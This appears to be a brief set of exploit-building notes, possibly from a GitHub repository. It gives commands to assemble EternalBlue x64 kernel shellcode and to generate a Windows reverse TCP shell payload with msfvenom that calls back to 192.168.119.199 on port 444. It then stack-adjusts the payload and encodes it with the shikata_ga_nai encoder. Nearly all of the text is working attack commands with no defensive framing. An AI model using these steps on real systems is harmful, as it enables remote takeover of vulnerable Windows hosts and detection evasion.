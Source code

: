 ### General assembler
```
nasm -f bin eternalblue_x64_kshellcode.asm -o sc_x64_kernel.bin
```

### Create raw
```
msfvenom -p windows/shell/reverse_nonx_tcp LHOST=192.168.119.199 LPORT=444 -f raw -o payload
```

### nasm to hex
```
msf-nasm_shell
sub esp,0xdac
```

### Encode
```
msfvenom -p generic/custom PAYLOADFILE=./stackadj -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin
cat stackadj | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o new-shellcode.bin
```
